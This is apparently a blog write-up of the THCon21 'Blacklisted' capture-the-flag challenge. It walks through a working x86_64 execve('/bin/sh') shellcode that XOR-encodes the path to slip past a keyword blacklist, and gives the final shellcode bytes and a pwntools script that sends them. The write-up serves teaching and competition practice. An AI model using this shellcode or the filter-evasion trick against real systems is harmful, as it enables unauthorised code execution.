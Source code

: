 ```yaml
---
title: "THCon21 - Blacklisted"
date: 2021-06-14T16:29:05+02:00
draft: false
tags: [pwn]
# image: "/image/blog-pic.jpg"
description: "A shellcoding challenge from THCon21"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


[Go back to write-ups list](../)

> **Category:** Intro
> 
> **Creator:** Voydstack
> 
> **Description:**
> 
> Don't say the magic word !
> 
> **Attachments:**
> - [blacklisted](/files/thcon21/blacklisted)

## Analysing the binary

The attachment is an ELF x64 binary. I opened it in IDA and went to the `main` function. It basically calls `check_blacklist` on the user input, and if it returns 0,the user input will be executed as a shellcode.

*Note: the maximum length for the shellcode is 64 bytes*

Here is the `check_blacklist` function:

![check_blacklist function](/image/thcon21/check_blacklist.png)

And here is the blacklist that comes with it:

![The blacklist](/image/thcon21/blacklist.png)

As you can see, we can't use the words `"/bin/"`, `"/tmp/"`, `"flag.txt"` and `"sh"`, which is kind of annoying considering that most shellcodes just put `/bin/sh` in the right register and call the `execve` shellcode.

## Shellcoding

The first thing I did was to copy a basic x86_64 execve('/bin/sh') shellcode which I found [here](https://www.exploit-db.com/exploits/42179). Now to edit the shellcode, I used an online tool (because I love online tools) to [disassemble from hex and assemble to hex online](https://defuse.ca/online-x86-assembler.htm) which is perfect for shellcoding (and it supports 32-bit and 64-bit). I got this assembly code:

```asm
push   rax
xor    rdx,rdx
xor    rsi,rsi
movabs rbx,0x68732f2f6e69622f

push   rbx
push   rsp
pop    rdi
mov    al,0x3b
syscall
```

The thing moved in rbx is the hexadecimal representation of `hs//bin/` which will make the final shellcode contain both `/bin/` and `sh`, so we need to find a way to prevent this.

I decided to put in the shellcode the string `hs//bin/` xored with `0x4242424242424242` instead of putting it in plain. Now I would just need to xor it with the same value in the shellcode to recover the original string in the register. Here is how I did:

```asm
push   rax
xor    rdx,rdx
xor    rsi,rsi
movabs rbx,0x2a316d6d2c2b206d ; path xored with 0x42
movabs rax,0x4242424242424242 ; xor key
xor    rbx,rax                ; we can't xor rbx with a 64 bits value directly
                              ; so we put the value in rax first
push   rbx
push   rsp
pop    rdi
xor    rax,rax
mov    al,0x3b
syscall
```

*Note: since we altered `rax` to store our xor key, we need to reset rax before setting `al`, because the `syscall` instruction seems to use the entire `rax` registry instead of just `al`*

This gives us our final shellcode :
```
\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x6D\x20\x2B\x2C\x6D\x6D\x31\x2A\x48\xB8\x42\x42\x42\x42\x42\x42\x42\x42\x48\x31\xC3\x53\x54\x5F\x48\x31\xC0\xB0\x3B\x0F\x05
```

And here is a little Python script using pwntools to send the shellcode to the remote challenge:

```py
from pwn import *

conn = process("./blacklisted")

conn.recv()
conn.send("\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x6D\x20\x2B\x2C\x6D\x6D\x31\x2A\x48\xB8\x42\x42\x42\x42\x42\x42\x42\x42\x48\x31\xC3\x53\x54\x5F\x48\x31\xC0\xB0\x3B\x0F\x05")
conn.interactive()
```

![Script execution](/image/thcon21/blacklisted_solved.png)

[Go back to write-ups list](../)